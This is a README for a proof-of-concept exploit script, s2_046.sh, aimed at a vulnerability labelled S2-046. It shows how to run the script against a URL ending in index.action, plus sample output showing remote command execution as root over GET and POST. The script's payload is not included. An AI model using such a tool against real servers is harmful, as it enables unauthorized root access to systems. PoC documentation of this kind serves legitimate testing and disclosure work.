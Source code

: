 # S2-046_POC
##  Usage:
    ./s2_046.sh [url]
    
##  Sample:
  
  1. chmod +x ./s2_046.sh       
  2. ./s2_046.sh http://172.16.152.135/index.action`
    
##  OUTPUT:
    ================HTTP GET Method================
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023
    ================HTTP POST Method================
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_java_t:s0-s0:c0.c1023
